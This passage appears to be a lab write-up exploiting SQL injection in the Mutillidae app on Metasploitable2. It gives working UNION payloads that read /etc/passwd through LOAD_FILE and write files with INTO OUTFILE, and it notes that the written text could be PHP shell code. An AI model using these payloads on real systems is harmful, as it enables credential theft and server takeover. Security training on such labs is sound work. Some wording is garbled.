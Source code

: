 ## OUTPUT:
<img width="400" alt="image" src="https://github.com/user-attachments/assets/21abf81d-e047-4793-a284-08fa17ecef5e" />

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
<img width="400" alt="image" src="https://github.com/user-attachments/assets/44300184-8a22-4802-88f0-f4e07d31d8bf" />

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
